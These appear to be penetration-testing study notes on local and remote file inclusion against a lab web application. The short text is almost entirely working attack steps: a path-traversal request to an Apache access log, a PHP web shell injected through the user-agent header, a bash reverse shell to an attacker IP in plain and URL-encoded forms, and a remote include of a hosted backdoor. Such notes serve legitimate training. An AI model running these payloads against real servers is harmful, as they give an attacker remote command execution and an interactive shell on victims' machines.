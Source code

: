 ### Local File Inclusion

```
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
```

Modify user-agent by adding <?php echo system($_GET['cmd']); ?>

bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

### Remote File Inclusion

- RFI vulnerabilities allow us to include files from a remote system over HTTP1 or SMB.

python3 -m http.server 80
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"

